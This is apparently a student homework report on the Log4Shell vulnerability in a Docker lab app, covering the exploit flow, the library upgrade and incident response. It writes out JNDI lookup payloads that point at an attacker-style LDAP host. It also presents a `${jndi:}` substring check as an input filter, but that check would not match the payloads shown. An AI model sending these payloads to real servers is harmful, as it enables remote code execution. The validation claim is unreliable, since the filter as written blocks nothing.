 # SEAS-8405 Homework 9 - Log4Shell Vulnerability Report

Stephen Carver
---

## 1. Executive Summary

This report details a Log4Shell (CVE-2021-44228) vulnerability found in a Java application. It outlines the application architecture, explains how the exploit occurs, and describes the mitigation steps taken. The "before" state of the application used a vulnerable version of Log4j (2.14.1), allowing for potential Remote Code Execution (RCE) via malicious JNDI LDAP lookups. The "after" state demonstrates the implemented fix by upgrading Log4j to version 2.17.0 and adding input validation.

---

## 2. Architecture Diagram

![Diagram](diagram.svg)

**Conceptual Diagram Description:**

* **User/Attacker:** An external entity interacting with the Java application.
* **Java Application (`app` service):**
    * Runs in a Docker container.
    * Exposes port 8080.
    * Contains a Spring Boot application with a `/log` endpoint.
    * Uses Log4j for logging.
    * Communicates with the LDAP server if a JNDI lookup is processed by a vulnerable Log4j version.
* **LDAP Server (`ldap` service):**
    * Runs in a separate Docker container (image: `osixia/openldap:1.5.0`).
    * Exposes port 389.
    * In the exploit scenario, this represents an attacker-controlled LDAP server.
    * The `docker-compose.yml` defines this service with `LDAP_ORGANISATION=Attacker` and `LDAP_DOMAIN=attacker.com`.
* **Network:**
    * Both services are on the same Docker network, allowing them to communicate.
    * The `extra_hosts` configuration `"host.docker.internal:host-gateway"` is present but not directly involved in this specific exploit path.

**Flow of Exploit:**

1.  Attacker sends a malicious string (e.g., `${jndi:ldap://attacker-ldap-server/a}`) to the `/log` endpoint of the Java application.
2.  The Java application's vulnerable Log4j library attempts to resolve the JNDI lookup.
3.  Log4j makes a connection to the (attacker-controlled) LDAP server.
4.  The LDAP server can respond with a reference to a malicious Java class, which the application would then load and execute (RCE). The provided `ldap_server.py` simulates the listening part of this attacker server.

---

## 3. Exploit Explanation (Log4Shell - CVE-2021-44228)

The Log4Shell vulnerability (CVE-2021-44228) affected Apache Log4j, a widely used Java logging library. The core of the vulnerability lies in how Log4j processed log messages.

**Vulnerable State (Before Fix):**

1.  **Log4j Version:** The application was using Log4j version `2.14.1` for both `log4j-core` and `log4j-api`. This version is known to be vulnerable to Log4Shell.
2.  **JNDI Lookups:** Log4j, in vulnerable versions, supported JNDI (Java Naming and Directory Interface) lookups within log messages. When a string like `${jndi:...}` was logged, Log4j would attempt to resolve it.
3.  **Attacker-Controlled Input:** The `LogController.java` in the "before" state takes user input and logs it directly: `logger.info("User input: " + input);`.
4.  **Exploitation Steps:**
    * An attacker can craft a malicious input string, for example: `${jndi:ldap://attacker.com/a}`.
    * This string is sent to the `/log` endpoint of the Java application.
    * The application's `LogController` passes this string to `logger.info()`.
    * The vulnerable Log4j library parses this string and encounters the JNDI lookup.
    * Log4j attempts to connect to the specified LDAP server (e.g., `attacker.com`, which would be controlled by the attacker).
    * The attacker's LDAP server (simulated by `ldap_server.py` which listens for connections and received data) can then serve a JNDI reference that points to a remote Java class file.
    * The vulnerable Java application will deserialize or load this remote class, leading to Remote Code Execution (RCE) on the application server.

**Demonstration with Provided Files:**

* The `docker-compose.yml` sets up the Java application (`app`) and an LDAP server (`ldap`). While the provided `ldap` service in `docker-compose.yml` is `osixia/openldap`, the exploit typically involves the JNDI lookup pointing to an *external* attacker-controlled LDAP server. The `ldap_server.py` is a simple Python script that can act as a fake LDAP server listening for connections, demonstrating that a callback can be received.
* If an attacker sends `${jndi:ldap://<ip_of_machine_running_ldap_server.py>:389/Exploit}` to the `/log` endpoint of the "before" application, the Log4j library would attempt to connect to the Python LDAP server. The `ldap_server.py` would print a message indicating a connection was received.

---

## 4. Mitigation and Response Summary

The vulnerability was addressed through a combination of upgrading the Log4j library and implementing input sanitization as a defense-in-depth measure.

**Mitigation Steps Implemented (After Fix):**

1.  **Log4j Version Upgrade:**
    * The primary mitigation was to update the Log4j library versions in the `pom.xml` file.
    * `log4j-core` and `log4j-api` were upgraded from `2.14.1` to `2.17.0`.
    * Log4j version `2.17.0` disables JNDI lookups by default and removes the message lookup feature, directly addressing the root cause of CVE-2021-44228 and subsequent related vulnerabilities (like CVE-2021-45046, CVE-2021-45105).

2.  **Input Validation/Sanitization:**
    * As an additional security layer, the `LogController.java` was modified to include basic input validation.
    * The code now checks if the input string contains the pattern `${jndi:}`:
        ```java
        if (input.contains("${jndi:}")){ //
            return "Invalid input detected"; //
        }
        ```
    * If this pattern is detected, the application rejects the input and does not log it in a way that would trigger JNDI lookup, even if the Log4j version were somehow still vulnerable or a new, similar vulnerability emerged.

**Incident Response Summary (General Recommendations):**

While the provided files focus on the technical fix, a typical incident response to Log4Shell would involve:

1.  **Identification:** Discovering the use of vulnerable Log4j versions within systems. This involves scanning applications and their dependencies.
2.  **Containment:**
    * Immediately restricting outbound traffic from potentially affected servers to prevent callbacks to attacker-controlled LDAP/RMI servers, if patching is not immediately possible.
    * Applying temporary workarounds like setting `log4j2.formatMsgNoLookups` to `true` for Log4j versions >=2.10, if an immediate upgrade isn't feasible (though upgrading is the preferred solution).
3.  **Eradication:**
    * **Patching/Upgrading:** Upgrading Log4j to a non-vulnerable version (e.g., 2.17.0 or later as recommended by Apache) is the most effective way to eradicate the vulnerability.
    * Removing the `JndiLookup` class from the classpath as a temporary measure if patching is delayed.
4.  **Recovery:**
    * Restoring systems from secure backups if a compromise is suspected.
    * Thoroughly scanning systems for any signs of compromise or persistence mechanisms established by attackers.
5.  **Lessons Learned & Post-Incident Activity:**
    * **Software Bill of Materials (SBOM):** Maintaining an accurate SBOM to quickly identify vulnerable components in the future.
    * **Dependency Management:** Regularly updating dependencies and having a process for quickly patching critical vulnerabilities.
    * **Security Best Practices:** Implementing defense-in-depth, including input validation, network segmentation, and egress filtering.
    * **Security Testing:** Regularly performing vulnerability scanning and penetration testing.
    * **Logging and Monitoring:** Enhancing logging to detect suspicious activities, such as unusual outbound connections or JNDI lookup attempts (even if blocked). The `log4j2.xml` configuration can be reviewed to ensure appropriate log levels and appenders are in place for monitoring.

The `docker-compose.yml` files for "before" and "after" are identical in terms of service definitions and ports, indicating the core infrastructure setup did not change, only the application code and its dependencies. The `log4j2.xml` configuration file also remained unchanged between the "before" and "after" states, focusing the mitigation efforts on the library version and application code.